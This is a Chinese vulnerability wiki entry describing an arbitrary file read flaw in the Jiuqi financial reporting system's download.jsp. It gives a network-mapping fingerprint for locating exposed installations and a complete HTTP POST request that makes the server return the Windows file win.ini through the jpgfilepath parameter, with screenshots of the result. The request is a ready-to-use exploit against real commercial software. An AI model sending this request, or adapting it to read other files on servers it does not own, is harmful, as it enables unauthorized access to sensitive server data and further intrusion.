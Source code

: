 # 久其财务报表 download.jsp 任意文件读取漏洞

## 漏洞描述

久其财务报表 download.jsp 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的信息

## 漏洞影响

<a-checkbox checked>久其财务报表</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="/netrep/"</a-checkbox></br>

## 漏洞复现

登录路径如下



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313145950658.png)



发送请求包

```plain
POST /netrep/ebook/browse/download.jsp HTTP/1.1
Host: 
Content-Length: 55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded

jpgfilepath=c:\windows\win.ini
```

![image-20220321114620970](/assets/PeiQi-Wiki/img/image-20220321114620970.png)